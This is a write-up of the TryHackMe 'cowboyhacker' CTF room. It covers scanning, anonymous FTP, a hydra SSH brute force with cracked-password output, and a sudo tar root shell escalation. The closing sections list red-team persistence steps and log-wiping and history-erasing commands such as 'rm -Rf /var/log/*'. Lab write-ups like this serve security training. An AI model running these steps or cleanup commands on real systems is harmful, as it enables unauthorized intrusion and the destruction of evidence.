 ```yaml
---
title: "THM:cowboyhacker"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/cowboyhacker"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,ftp,hydra,apache,ubuntu,privesc,sudo
---
```

# THM:cowboyhacker

URL: [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker) [Easy]

## Reconnaissance

Description of the room:

> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

## Scanning

### Scan: `nmap`

Ran the following:

> `nmap -vv xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack
22/tcp    open   ssh             syn-ack
80/tcp    open   http            syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Scan: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

This resulted in two directories being found:

* `/images/` - only images.
* `/server-status` - got `403 Forbidden`.

*Also see: [gobuster.log](gobuster.log)*

## Gaining Access


### FTP Service

Since FTP was running, we log in as `anonymous`:

> `ftp anonymous@xxx.xxx.xxx.xxx`

After doing a directory listing with `ls` or `dir`, we see there are two files there: `locks.txt` and `task.txt`. We retrieve these files back down to our workstation:

> `mget *.txt ./`

This does a (multiple)-get of `*.txt` files and puts them in our current directory on the workstation. The two files:

* [locks.txt](locks.txt)
* [task.txt](task.txt)

### Cracking SSH password for `lin`

We know from the `task.txt` file that the username is `lin`. The contents of `locks.txt` look at lot like leet-speak passwords. So, we can use hydra to see if any of those are the password for the `lin` account:

> `hydra -l lin -P ./locks.txt ssh://10.10.47.229`

And we find that one is found:

```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-19 21:01:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.47.229:22/
[22][ssh] host: 10.10.47.229   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-19 21:02:04
```

*Also see: [hydra.log](hydra.log)*

With that username and password, we can SSH into the box:

> `ssh lin@xxx.xxx.xxx.xxx`

And we use the password `RedDr4gonSynd1cat3` found by hydra, above. We are now logged in as an **unprivileged account** and can retrieve the `~/user.txt` flag, the first flag for this room.

## PE: Sudo Privileges

Logged-in as user `lin`, we check to see if we have any `sudo` permission:

> `sudo -l`

We do! Oddly enough, it is for the `tar` command. We can go look up privesc techniques over on gtfobins:

> https://gtfobins.github.io/gtfobins/tar/#sudo

Using this technique, that means that as `tar` is running as root, we could coerce it to run a command upon a checkpoint. For example, it could open a new bash prompt. Since tar would be running as `root`, that bash prompt would be running as root. So, we execute the following:

> `sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

You see an error message, but **it does dump you at a root prompt!** From here, one can `cat /root/root.txt` to complete the room. That is the second flag to capture for this room.


## Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: `2022-01-19 21:18:28`